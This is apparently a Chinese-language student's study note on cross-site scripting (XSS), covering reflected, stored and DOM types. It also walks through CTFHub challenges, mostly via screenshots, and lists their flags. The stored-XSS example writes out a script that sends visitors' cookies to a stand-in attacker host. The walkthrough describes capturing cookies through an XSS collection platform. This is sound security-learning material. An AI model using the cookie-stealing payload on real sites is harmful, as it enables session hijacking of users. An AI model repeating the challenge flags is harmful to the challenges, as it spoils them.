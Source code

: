 # XSS

## 漏洞原理

> Web 应用程序在处理用户输入时，没有对输入进行充分的过滤和转义，直接将用户输入的内容输出到页面中，攻击者就可以利用这个漏洞注入恶意脚本。

例如，一个留言板应用程序直接将用户输入的留言显示在页面上，如果攻击者输入一段 JavaScript 代码，当其他用户访问该留言板时，这段代码就会在他们的浏览器中执行。

## 漏洞类型
### 反射型 XSS
**特点**：攻击者诱使用户点击包含恶意脚本的链接，服务器接收请求后将恶意脚本反射回用户的浏览器并执行。这种攻击通常是一次性的，不会在服务器上存储恶意脚本。
**示例**：一个搜索页面，URL 参数直接显示在搜索结果页面上。攻击者构造一个包含恶意脚本的 URL，如```http://example.com/search?keyword=<script>alert('XSS')</script>```。

### 存储型 XSS

**特点**：攻击者将恶意脚本提交到服务器并存储在数据库中，当其他用户访问包含该恶意脚本的页面时，脚本会在他们的浏览器中执行。这种攻击危害更大，因为它会影响多个用户。
**示例**：在一个论坛的留言功能中，攻击者在留言内容中注入恶意脚本，如```<script>document.location='http://attacker.com?cookie='+document.cookie</script>```。当其他用户查看该留言时，脚本会将他们的 Cookie 信息发送到攻击者的服务器。

### DOM 型 XSS
**特点**：基于 DOM（文档对象模型）的 XSS 攻击，不依赖服务器端处理，而是通过修改页面的 DOM 结构来注入恶意脚本。攻击者通过诱导用户访问包含恶意脚本的 URL，当页面加载时，脚本会在浏览器中执行。
**示例**：一个页面使用 JavaScript 动态更新内容，根据 URL 参数修改页面元素。攻击者构造一个包含恶意脚本的 URL，如```http://example.com/page.html?param=<script>alert('XSS')</script>```，当用户访问该 URL 时，脚本会在浏览器中执行。

# 题目

## 反射型

![image-20250411201914007](image-20250411201914007.png)

![image-20250411201926443](image-20250411201926443.png)

在第一个输入框输入内容后，下面会显示。我看别人的wp中的js中写入alert语句都能被执行，我的直接冲定向了

![image-20250411202449543](image-20250411202449543.png)

![image-20250411202458622](image-20250411202458622.png)

定义一个变量试一下

![image-20250411203941227](image-20250411203941227.png)

被执行了

![image-20250411204009304](image-20250411204009304.png)

接着找个XSS平台，将url填入

![image-20250411205731085](image-20250411205731085.png)

不知道为啥，使用火狐是得不到cookie，最后用的Edge

![image-20250411205620592](image-20250411205620592.png)

**flag:ctfhub{8bc9faaca0589642c67759de}**

## 存储型

![image-20250411210859339](image-20250411210859339.png)

和上题类似，先测试一下

![image-20250411210930754](image-20250411210930754.png)

![image-20250411210947151](image-20250411210947151.png)

在第一个框中填入项目的地址

![image-20250411211238058](image-20250411211238058.png)

第二个框填入当前页的url

![image-20250411211358963](image-20250411211358963.png)

看一下XSS平台的后台

![image-20250411211453422](image-20250411211453422.png)

**flag:ctfhub{3481284913c5d18b9fdcdb77}**

## DOM反射

![image-20250411211920380](image-20250411211920380.png)

题目说了是DOM反射，看源码

![image-20250411212021827](image-20250411212021827.png)

填入1试试

![image-20250411211942888](image-20250411211942888.png)

![image-20250411212233372](image-20250411212233372.png)

中间加个**‘；**

![image-20250411212428413](image-20250411212428413.png)

链接交上去

![image-20250411212450981](image-20250411212450981.png)

去看一下

![image-20250413181505021](image-20250413181505021.png)
